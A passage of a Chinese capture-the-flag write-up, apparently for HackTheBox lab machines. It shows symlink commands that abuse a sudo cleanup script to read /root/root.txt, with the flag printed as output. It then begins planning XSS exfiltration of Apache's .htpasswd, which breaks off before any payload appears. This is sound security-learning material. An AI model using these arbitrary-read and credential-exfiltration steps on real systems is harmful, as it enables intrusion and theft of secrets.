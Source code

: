 首先我们的思路就是读取root的flag，我们可以把这个`.txt`链接到`.png`上，但是直接链接会报错，我们在中间再转折一下

```
bob@linkvortex:~$ export CHECK_CONTENT=true
bob@linkvortex:~$ touch link1.png
bob@linkvortex:~$ `ln -sf /root/root.txt link1.png`
bob@linkvortex:~$ touch link2.png
bob@linkvortex:~$ `ln -sf /home/bob/link1.png link2.png`
bob@linkvortex:~$ ls
link1.png  link2.png  user.txt
bob@linkvortex:~$ sudo bash /opt/ghost/clean_symlink.sh link2.png
Link found [ link2.png ] , moving it to quarantine
Content:
a2340eed30a7a15b1fb810a7945d2338
```

实际上这个就是个任意文件读取，我们当然可以去读取ssh的密钥去做到提权的效果

### XSS外带文件
>写这个就想起了ccb线下赛的XSS外带cookie，虽然不是web手，但是想起来这个没做出来就很难受，害

看看网页源代码

```

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
            </nav>
    <div class="container">
        <h1>Markdown Viewer</h1><div class="form-container">
            <form action="visualizer.php" method="post" enctype="multipart/form-data">
                <input type="file" name="file" accept=".md" required>
                <input type="submit" value="View Markdown">
            </form>
          </div>    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>


```
发现`md`文件写的东西都会在这里显现，典型的XSS漏洞.
突然想起来服务是Apache，那么就有`.htpasswd`用来存放密码，那么我们的思路就是去外带这个文件，去得到账号的密码，伟大的grok3会给我payload的
本地先开python的http服务(ccb的那个五分钟刷新一次不应该关的啊啊啊)
